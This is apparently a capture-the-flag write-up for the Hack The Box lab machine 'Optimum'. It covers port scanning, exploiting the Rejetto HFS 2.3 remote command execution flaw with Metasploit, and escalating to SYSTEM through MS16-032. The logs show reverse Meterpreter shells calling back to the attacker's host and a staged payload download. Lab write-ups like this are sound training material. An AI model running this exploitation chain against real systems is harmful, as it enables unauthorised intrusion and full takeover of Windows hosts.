



# Optimum Writeup


Target host: 10.10.10.8

Performed TCP portscan on host
```go
└──╼ $./rustscan -a 10.10.10.8 -- sV -sC -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/nath/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.10.8:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} sV -sC -A" on ip 10.10.10.8
Depending on the complexity of the script, results may take some time to appear.
Failed to resolve "sV".
Failed to resolve "sV".
Failed to resolve "sV".
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-11 11:48 AEST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:48
Completed NSE at 11:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:48
Completed NSE at 11:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:48
Completed NSE at 11:48, 0.00s elapsed
Initiating Ping Scan at 11:48
Scanning 10.10.10.8 [2 ports]
Completed Ping Scan at 11:48, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:48
Completed Parallel DNS resolution of 1 host. at 11:48, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:48
Scanning 10.10.10.8 [1 port]
Discovered open port 80/tcp on 10.10.10.8
Completed Connect Scan at 11:49, 0.26s elapsed (1 total ports)
Initiating Service scan at 11:49
Scanning 1 service on 10.10.10.8
Completed Service scan at 11:49, 6.59s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.8.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 7.90s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 1.60s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Nmap scan report for 10.10.10.8
Host is up, received syn-ack (0.26s latency).
Scanned at 2023-04-11 11:48:59 AEST for 17s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.94 seconds
```

Upon navigating to the http server open on port 80, the following is presented to the screen.


At the bottom of the screenshot we can also see some information about the server which will help indicate if and what exploit it is vulnerable to.

Looking through the source file of the page under the server information section, reveals a [link](http://www.rejetto.com/hfs/) to an open source package named `hfs` which standard for `Hierarchical File System`.


When I search the following `rejetto HFS HTTPFileServer 2.3` on google, I see hundreds of results about remote command execution vulnerabilites for this server version.

I think its safe to say that this machine is vulnerable and can likely be exploited with Metasploit.

## Foothold

From here I startup metasploit and search `rejetto`.
```go
[msf](Jobs:0 Agents:0) >> search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

After I finish setting up the reverse shell and enter `exploit`, we see the following.
```go
[*] Started reverse TCP handler on 10.10.16.5:4242 
[*] Using URL: http://10.10.16.5:8080/NchtWbPaCDlCvu
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /NchtWbPaCDlCvu
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\OIvgzTx.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.16.5:4242 -> 10.10.10.8:49162) at 2023-04-11 12:04:38 +1000
[*] Server stopped.
```

We have a shell!
Executing sysinfo and ls shows we are running windows server 2012 R2 and that are already have the user flag.
```go
(Meterpreter 1)(C:\Users\kostas\Desktop) > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
(Meterpreter 1)(C:\Users\kostas\Desktop) > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2023-04-17 21:02:43 +1000  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 22:57:16 +1100  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 23:11:17 +1100  hfs.exe
100444/r--r--r--  34      fil   2023-04-17 20:42:35 +1000  user.txt
```

Interestingly when I take screenshot of the users desktop, we can see my machine connecting to the victim through the logs in the GUI.


From here I uploaded winPREAS.exe to the target host to see if I could find any credentials laying around or if the script would suggest some exploits for me.

However, winpeas wasent overly helpful.
At this point I went back to my reverse shell and entered the command `systeminfo` to see if I could get the exact Operating system build number and perform a manual search online.

While searching I found that the machine was potentially vulnerable to [MS16_032](https://www.exploit-db.com/exploits/39719)

I was also able to verify this when I backgrounded the metasploit session with the `background` command and executed the handy dandy exploit suggester.
```go
 1   exploit/windows/local/bypassuac_eventvwr
 2   exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

## SYSTEM Shell
Upon executing the MS16_032, I was successfully able to escalate my privileges to system.
```bash
[*] Started reverse TCP handler on 10.10.16.5:4444 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\oyEvwV.ps1...
[*] Compressing script contents...
[+] Compressed size: 3749
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2532

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $qNG = [Ntdll]::NtImpersonateThread($w__, $w__, [ref]$sxPdh)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (sxPdh:VariablePath) [], Runti 
   meException
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateTo
ken" to type "System.IntPtr": "Cannot convert null to type "System.IntPtr"."
At line:259 char:2
+     $qNG = [Advapi32]::DuplicateToken($cNw, 2, [ref]$cOUB)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

Nx6g9kNmqrw3OrZpBjXQALgf6moIhWKp
[+] Executed on target machine.
[*] Sending stage (175686 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.16.5:4444 -> 10.10.10.8:49164) at 2023-04-11 13:33:16 +1000
[+] Deleted C:\Users\kostas\AppData\Local\Temp\oyEvwV.ps1

(Meterpreter 2)(C:\Users\kostas\Documents) > shell
Process 504 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami
whoami
nt authority\system
```

We have the root flag!
```bash
 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14 ��    <DIR>          .
18/03/2017  03:14 ��    <DIR>          ..
17/04/2023  01:42 ��                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   5.626.601.472 bytes free
```